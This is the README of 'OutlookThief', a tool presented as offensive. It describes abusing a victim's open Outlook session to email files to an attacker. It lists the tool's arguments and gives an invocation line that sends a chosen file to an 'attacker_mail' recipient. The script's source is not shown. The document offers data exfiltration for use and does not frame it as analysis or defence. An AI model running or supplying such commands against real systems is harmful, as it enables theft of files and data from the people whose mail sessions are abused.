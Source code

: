 
# OutlookThief

![image psd](https://github.com/Zeyad-Azima/OutlookThief/assets/62406753/fd9fd1af-6d06-43e3-8f20-37750866b3b3)


A tool to abuse the current opened session of outlook to exfilitrate data through it.

# Usage
```
[+] OutlookThief
[*] By: Zeyad Azima
[*] Github: https://github.com/Zeyad-Azima/OutlookThief

[*] Help:
The tool simply abuses the logged-in user through outlook to send email that has the targeted data to Exfiltrate it to the attacker side.

[*] Arguments:
  -help            : Display the help message
  -mailTo          : The attacker/recipient email
  -attachmentPath  : The file path to exfiltrate
  -subject         : The email Subject
  -bodyContent     : The email body content
```
### Invoke
```
.\OutlookThief.ps1 -mailTo "attacker_mail" -attachmentPath "file_path" -subject "Subject" -bodyContent "Body Content"
```
